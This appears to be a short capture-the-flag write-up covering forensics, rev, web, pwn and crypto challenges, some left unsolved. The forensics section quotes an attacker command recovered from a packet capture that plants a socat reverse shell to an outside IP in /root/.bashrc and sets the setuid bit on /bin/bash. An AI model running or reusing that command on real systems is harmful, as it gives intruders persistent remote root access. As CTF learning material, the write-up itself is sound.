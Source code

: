 # Forensics
By using strings on the pcap file, there was some code which had been sent to the destination IP. Using `strings` it was possible to see the code which was sent:
```
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
```
So by simply reversing the base64 string and decoding it you would get the flag.

# Rev
For the rev challenge there was a binary called _meeting_. By calling `strings meeting` there was a password in plaintext:
_sup3r_s3cr3t_p455w0rd_f0r_u!_. By inputting this when prompted for a password when running the binary, a shell was spawned and it was possible to read the flag.txt file and get the flag. (missing screenshots)

# Web
This challenge was a webapp written in flask and with json.
There was a vulnerability in the code, whch allowed for python code to be injected into the 'operator' parameter of the POST request
![[HTB_web1_flag.png]]


# pwn
I can tell it is a very easy challenge, I just am not sure where to start. I think there is some manipulation of the coins required, as there is a value (not quite sure what) that is compared to the coins for the flag to be returned...
To try: pwn_cyclic


# Crypto
This gave both a binary file which has the encryption method algorithm, as well as a file with an example of encrypted text.
Dont know where to start --> reversing of some kind. Or it might be a well known one.